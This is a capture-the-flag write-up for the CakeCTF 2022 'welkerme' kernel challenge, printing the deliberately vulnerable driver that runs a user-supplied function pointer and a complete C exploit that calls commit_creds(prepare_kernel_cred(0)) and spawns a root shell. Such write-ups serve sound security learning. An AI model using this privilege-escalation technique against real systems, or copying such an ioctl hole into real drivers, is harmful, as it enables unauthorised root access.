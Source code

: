 ```yaml
---
layout: post
readtime: true
tags: [kernel,pwn]
---
```

### Attachments : [welkerme.tar.gz](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/welkerme_afcc40e7baa18649730945cde6475354.tar.gz) , [compress.sh](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/compress.sh)
<br>

First of all, let's have a look on the source code of the driver.
```c
#include <linux/cdev.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/random.h>
#include <linux/slab.h>
#include <linux/uaccess.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("ptr-yudai");
MODULE_DESCRIPTION("welkerme - CakeCTF 2022");

#define DEVICE_NAME "welkerme"
#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

static int module_open(struct inode *inode, struct file *filp) {
  printk("'module_open' called\n");
  return 0;
}

static int module_close(struct inode *inode, struct file *filp) {
  printk("'module_close' called\n");
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  long (*code)(void);
  printk("'module_ioctl' called with cmd=0x%08x\n", cmd);

  switch (cmd) {
    case CMD_ECHO:
      printk("CMD_ECHO: arg=0x%016lx\n", arg);
      return arg;

    case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();

    default:
      return -EINVAL;
  }
}

static struct file_operations module_fops = {
  .owner   = THIS_MODULE,
  .open    = module_open,
  .release = module_close,
  .unlocked_ioctl = module_ioctl
};

static dev_t dev_id;
static struct cdev c_dev;

static int __init module_initialize(void)
{
  if (alloc_chrdev_region(&dev_id, 0, 1, DEVICE_NAME))
    return -EBUSY;

  cdev_init(&c_dev, &module_fops);
  c_dev.owner = THIS_MODULE;

  if (cdev_add(&c_dev, dev_id, 1)) {
    unregister_chrdev_region(dev_id, 1);
    return -EBUSY;
  }

  return 0;
}

static void __exit module_cleanup(void)
{
  cdev_del(&c_dev);
  unregister_chrdev_region(dev_id, 1);
}

module_init(module_initialize);
module_exit(module_cleanup);
```

This is the source code of a kernel module. Inserting or loading the module into the kernel creates a device (file) at `/dev/welkerme`. We can interact with the driver using `ioctl`. Calling `ioctl` with the command `CMD_EXEC` i.e `0xc0de0002` would call an arbitrary function pointer supplied by the user as `ioctl` arg. 

```c
case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();
```


Before actually doing something, let's have a look on some core concepts related to privilege escalation.

### task_struct
This is the Process Control Block and stores all the information needed by a process. Every task has a `task_struct` object living in memory. 

```c
struct task_struct {
    volatile long state;            // process state (running, stopped, ...)
    void *stack;                    // task's stack pointer
    int prio;                       // process priority
    struct mm_struct *mm;           // memory address space
    struct files_struct *files;     // open file information
    const struct cred *cred;        // credentials
  // ...
};

struct cred {
    // .
    // .
    // .
    kuid_t  uid;        /* real UID of the task */
    kgid_t  gid;        /* real GID of the task */
    kuid_t  suid;       /* saved UID of the task */
    kgid_t  sgid;       /* saved GID of the task */
    kuid_t  euid;       /* effective UID of the task */
    kgid_t  egid;       /* effective GID of the task */
    // .
    // .
    // .
};
```
The `cred` struct stores information about the owner, capabilities,etc. of a process. Privilege escalation is achieved via changing `current_task->cred->euid` to 0. (Might need to change some other id's depending on situation). The following code will do this for us!
```c
commit_creds(prepare_kernel_cred(0));
```
`prepare_kernel_cred` prepares a set of credentials for a kernel service which is committed by passing its return value as an argument to the function `commit_creds`.

Cool, not let's find out the address of `prepare_kernel_cred` and `commit_creds`. To do this, we need to read `/proc/kallsyms` by booting into the kernel as root. Run `debug.sh`, provided by the author. 
```sh
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff810726e0 T prepare_kernel_cred

/ # cat /proc/kallsyms | grep commit_creds
ffffffff81072540 T commit_creds
```
Let's write a helper function for calling `commit_creds(prepare_kernel_cred(0))`
```c
void getRoot(){
    void* (*prepare_kernel_cred)(int) = 0xffffffff810726e0;
    void (*commit_creds)(void*) = 0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}
```
After that, we only need to call `ioctl` and supply a pointer to the function `getRoot`

```
ioctl(fd, CMD_EXEC, &getRoot);
system("/bin/sh");
```
Complete exploit:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

void getRoot(){
   void* (*prepare_kernel_cred)(int) = (void*)0xffffffff810726e0;
    void (*commit_creds)(void*) = (void*)0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}

int main(void) {
  int fd = open("/dev/welkerme",O_RDWR);
  if(fd==-1){
    perror("open");
    exit(1);
  }

  ioctl(fd, CMD_EXEC, &getRoot);
  system("/bin/sh");
  close(fd);
  return 0;
}

```
Compile, deliver and run this exploit to escalate privileges to the root!
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/welkerme_1.png"/>

### References
<a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/</a>
